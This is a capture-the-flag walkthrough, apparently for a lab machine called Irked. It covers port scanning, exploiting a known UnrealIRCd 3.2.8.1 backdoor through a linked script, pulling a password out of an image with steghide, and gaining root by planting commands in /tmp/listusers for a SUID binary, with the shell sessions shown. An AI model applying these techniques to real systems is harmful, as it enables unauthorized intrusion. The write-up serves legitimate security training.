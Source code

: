 1, Recon
port scan 
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38453/udp6  status
|   100024  1          50987/tcp   status
|   100024  1          53651/udp   status
|_  100024  1          56239/tcp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
50987/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd

```

From port 80, we could not find anything useful.
![](images/Pasted%20image%2020241127023209.png)
There is a hint: IRC is working.
```
IRC
IRC（英语：Internet Relay Chat，直译：因特网中继聊天）是一种应用层的协议。其主要用于群体聊天，但同样也可以用于个人对个人的聊天。IRC使用的服务器端口有6667（明文传输，如irc://irc.libera.chat）、6697（SSL加密传输，如ircs://irc.libera.chat:6697）等。
```
We can use `HexChat` or `irssi` to check what is going on here.
`irssi -c 10.10.10.117 -p 6697`
```
Your host is irked.htb, running version Unreal3.2.8.1
02:42 -!- This server was created Mon May 14 2018 at 13:12:50 EDT
02:42 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp 
          lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
```
We get the version of `Unreal 3.2.8.1`
By searching that exploits ,we found `UnrealIRCd 3.2.8.1 Backdoor`
`https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.git`

Just change the script and run it, then we can get the shell as ircd

2, shell as `djmardov`
when I come to `/home/djmardov`, I want to check the `user.txt`, but we did not have the permission to open it.
So we would enumerate more deeply, we found a hidden file `.backup`
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

When I see the `steg` , I would use the tool `steghide`.
And I only have the image of index page to crack, so I would try it.
`steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss`
```
extract - I want to extract data
-sf irked.jpg - give the file to extract from
-p - passphrase
```
We get the password `Kab6h+m+bbp2J:HG`

Then we can use ssh to login.

3, shell as root
when I want to check `sudo -l`, I find there is no command `sudo`

So I continue to check `id` to find something useful
`uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)`

Still no hints, so we can try to use `linpeas.sh` to check the vulnerablilty.

From the files `/bin` with root permission.
I don’t recognize the file `/usr/bin/viewuser`.
```
djmardov@irked:/dev/shm$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-03 06:34 (:0)
djmardov pts/2        2019-04-04 09:01 (10.10.14.14)
sh: 1: /tmp/listusers: not found
```

It throws an error saying that sh can’t find `/tmp/listusers`.

```
djmardov@irked:~$ echo "test" > /tmp/listusers

djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 11:57 (:0)
djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
sh: 1: /tmp/listusers: Permission denied

```

Permissions - the only thing that root can’t do is execute. So I’ll add it, and change it to a command:
```
djmardov@irked:~$ chmod +x /tmp/listusers 
djmardov@irked:~$ echo id > /tmp/listusers 
djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 11:57 (:0)
djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

There’s execution. I’ll change the command to get a shell:
```
djmardov@irked:~$ echo sh > /tmp/listusers 
djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 11:57 (:0)
djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Then we finally get shell as root.


